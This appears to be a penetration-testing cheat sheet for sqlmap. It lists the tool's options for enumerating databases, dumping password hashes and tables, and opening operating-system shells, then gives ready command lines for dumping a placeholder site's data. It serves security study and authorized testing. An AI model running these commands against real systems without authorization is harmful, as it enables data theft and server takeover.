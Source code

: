 An [[SQL Injection]] tool. To show basic help menu, simply type `sqlmap -h`.
### Basic commands:  


| **Options**       | **Description**                                       |
| ----------------- | ----------------------------------------------------- |
| -u URL, --url=URL | Target URL (e.g. "http://www.site.com/vuln.php?id=1") |
| --data=DATA       | Data string to be sent through POST (e.g. "id=1")     |
| --random-agent    | Use randomly selected HTTP User-Agent header value    |
| -p TESTPARAMETER  | Testable parameter(s)                                 |
| --level=LEVEL     | Level of tests to perform (1-5, default 1)            |
| --risk=RISK       | Risk of tests to perform (1-3, default 1)             |
### Enumeration commands:

These options can be used to enumerate the back-end database management system information, structure, and data contained in tables.

| Options           | Description                                |
| ----------------- | ------------------------------------------ |
| -a, --all         | Retrieve everything                        |
| -b, --banner      | Retrieve DBMS banner                       |
| --current-user    | Retrieve DBMS current user                 |
| --passwords       | Enumerate DBMS users password hashes       |
| --dbs             | Enumerate DBMS databases                   |
| --tables          | Enumerate DBMS database tables             |
| --columns         | Enumerate DBMS database table columns      |
| --schema          | Enumerate DBMS schema                      |
| --dump            | Dump DBMS database table entries           |
| --dump-all        | Dump all DBMS databases tables entreis     |
| --is-dba          | Detect if the DBMS current user is DBA     |
| -D <*DB NAME*>    | DBMS database to enumerate                 |
| -T <*TABLE NAME*> | DBMS database table(s) to enumerate        |
| -C COL            | DBMS database table column(s) to enumerate |
### Operating System access commands
These options can be used to access the back-end database management system on the target operating system.

| Options        | Description                                           |
| -------------- | ----------------------------------------------------- |
| --os-shell     | Prompt for an interactive operating system shell      |
| --os-pwn       | Prompt for an OOB shell, Meterpreter or VNC           |
| --os-cmd=OSCMD | Execute an operating system command                   |
| --priv-esc     | Database process user privilege escalation            |
| --os-smbrelay  | One-click prompt for an OOB shell, Meterpreter or VNC |

Note that the tables shown above aren't all the possible switches to use with sqlmap. For a more extensive list of options, run sqlmap -hh to display the advanced help message. 

### **Simple HTTP POST Based Test**

`sqlmap -r <request_file> -p <vulnerable_parameter> --dbs`

Where the request_file is the saved HTTP post request and vulnerable_parameter is it's target parameter.
###  Getting Table Names
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --tables`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --tables`

### Getting Columns Names
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> -T <table_name> --columns`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> -T <table_name> --columns`

### Dumping all
**Using GET based Method**
`sqlmap -u https://testsite.com/page.php?id=7 -D <database_name> --dump-all`

**Using POST based Method**
`sqlmap -r req.txt -p <vulnerable_parameter> -D <database_name> --dump-all`
